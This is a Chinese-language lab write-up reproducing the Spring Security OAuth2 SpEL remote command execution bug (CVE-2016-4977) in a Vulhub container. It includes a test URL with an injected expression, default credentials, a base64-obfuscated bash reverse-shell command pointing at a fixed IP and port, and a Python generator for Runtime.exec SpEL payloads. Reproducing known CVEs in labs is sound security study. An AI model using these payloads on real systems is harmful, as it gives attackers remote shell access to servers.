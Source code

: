 # Spring Security OAuth2 远程命令执行漏洞 CVE-2016-4977

## 漏洞描述

Spring Security OAuth 是为 Spring 框架提供安全认证支持的一个模块。在其使用 whitelabel views 来处理错误时，由于使用了Springs Expression Language (SpEL)，攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令。

参考链接：

- http://secalert.net/#CVE-2016-4977
- https://deadpool.sh/2017/RCE-Springs/
- http://blog.knownsec.com/2016/10/spring-security-oauth-rce/

## 环境搭建

Vulhub执行如下命令启动漏洞环境：

```
docker-compose up -d
```

启动完成后，访问`http://your-ip:8080/`即可看到web页面。

## 漏洞复现

访问`http://your-ip:8080/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test`。首先需要填写用户名和密码，我们这里填入`admin:admin`即可。

可见，我们输入是SpEL表达式`${233*233}`已经成功执行并返回结果：

![image-20220301140432346](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011404402.png)

java反弹shell的命令如下：

```
bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTc0LjEyOC85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}
```

然后，我们使用[poc.py](https://github.com/vulhub/vulhub/blob/master/spring/CVE-2016-4977/poc.py)来生成反弹shell的POC：

```
#!/usr/bin/env python

message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

poc += ')}'

print(poc)
```

![image-20220301141331441](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011413565.png)

如上图，生成了一大串SpEL语句。附带上这个SpEL语句发送请求：

![image-20220301141502582](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011415696.png)

监听999端口，成功接收反弹shell（`/bin/bash`反弹成功，`bash`反弹失败）：

![image-20220301141258919](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011412018.png)